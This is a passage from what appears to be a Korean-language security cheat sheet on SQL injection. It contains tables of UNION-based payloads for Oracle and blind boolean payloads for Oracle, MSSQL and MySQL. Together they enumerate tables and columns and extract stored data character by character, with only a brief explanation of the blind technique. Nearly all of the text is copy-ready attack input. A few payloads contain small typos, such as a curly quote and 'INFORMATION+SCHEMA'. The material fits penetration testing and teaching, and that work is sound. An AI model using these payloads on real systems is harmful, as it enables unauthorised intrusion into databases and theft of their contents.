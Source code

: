 <img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FGUwJX%2FbtsK17Huoay%2FSFGOt0os51rtOtB1c2dp71%2Fimg.png" alt="" width=1300>


#### **2-1-1. UNION SQLi Payload (Oracle)**

| attack type | Payload |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| **컬럼 수** | `ORDER BY 1 --` |
| **각 컬럼 데이터 타입** | `' UNION SELECT null, ..., null FROM DUAL --   ' UNION SELECT 1, ..., "1" FROM DUAL --` |
| **테이블 목록** | `' UNION SELECT null, TABLE_NAME FROM ALL_TABLES --   ' UNION SELECT null, TABLE_NAME FROM USER_TABLES --` |
| **특정 테이블의 컬럼명 추출** | `‘ UNION SELECT null, COLUMN_NAME FROM ALL_TAB_COLUMNS   WHERE TABLE_NAME='{TABLE_NAME}' --` |
| **특정 테이블의 컬럼의 데이터 추출** | `' UNION SELECT null, {COLUMN_NAME} FROM {TABLE_NAME} --` |

---

### **2-2. Blind SQL Injection**

**(개요)** Blind SQLi 공격은 참(True)/거짓(False) 쿼리문 삽입 시 반환되는 결과를 비교하여 정보를 추출하는 공격 기법입니다. 공격자는 삽입한 공격 쿼리에 대한 응답 값을 바탕으로 데이터베이스에 저장된 정보 확인이 가능합니다.

**(조건)** Blind SQLi 공격을 진행하기 위해서는 아래와 같은 조건을 만족해야 합니다.
> 1. 참(True)/거짓(False) 쿼리문 삽입 시 응답 결과가 서로 다른 값을 가져야 합니다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlYxnk%2FbtsK1UhcV55%2FMU7ePGI9PtTSolBQ8WtxS0%2Fimg.png" alt="" width=1300>

#### **Blind SQLi Payload (Oracle)** 

| attack type | payload |
| --- | --- |
| **테이블 개수** | `%' AND (SELECT COUNT(TABLE_NAME) FROM ALL_TABLES) < 128 --` |
| **테이블 이름** | `%' AND ASCII(SUBSTR((SELECT TABLE_NAME FROM   (SELECT TABLE_NAME, ROWNUM AS RNUM FROM USER_TABLES) WHERE RNUM=1), 1, 1)) < 128 --` |
| **컬럼 개수** | `%' AND (SELECT COUNT(COLUMN_NAME) FROM ALL_TAB_COLUMNS   WHERE TABLE_NAME='**{TABLE_NAME}**') = 10 --` |
| **컬럼 이름** | `%' AND ASCII(SUBSTR((SELECT COLUMN_NAME FROM   (SELECT COLUMN_NAME, ROWNUM AS RNUM FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='**{TABLE_NAME}**') WHERE RNUM=1), 1, 1)) < 128--` |
| **데이터 개수** | `%' AND (SELECT COUNT('**{COLUMN_NAME}**') FROM '**{TABLE_NAME}**') < 100 --` |
| **데이터 정보** | `%' AND ASCII(SUBSTR((SELECT ' **{COLUMN_NAME}**' FROM   (SELECT '**{COLUMN_NAME}**', ROWNUM AS RNUM FROM '**{TABLE_NAME}**')   WHERE RNUM=1), 1, 1)) < 128--` |

#### **Blind SQLi Payload (MSSQL, MYSQL)** 

| attack type | payload |
| --- | --- |
| **테이블 이름(MSSQL)** | `ASCII(SUBSTRING((SELECT+TOP+1+name+FROM+sysobjects+WHERE+xtype='U'),1,1))<128` |
| **컬럼 이름(MSSQL)** | `ASCII(SUBSTRING((SELECT+TOP+1+COLUMN_NAME+FROM+INFORMATION+SCHEMA.COLUMNS+WHERE+TABLE_NAME='**{TABLE_NAME}**'),1,1))<128` |
| **테이블 이름(MySQL)** | `ASCII(SUBSTRING((SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_TYPE='base table'+limit+**0**,1),**1**,1))<128` |
| **컬럼 이름(MySQL)** | `ASCII(SUBSTRING((SELECT+COLUMN_NAME+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='**{TABLE_NAME**}'+limit+0,1),1,1))<128` |
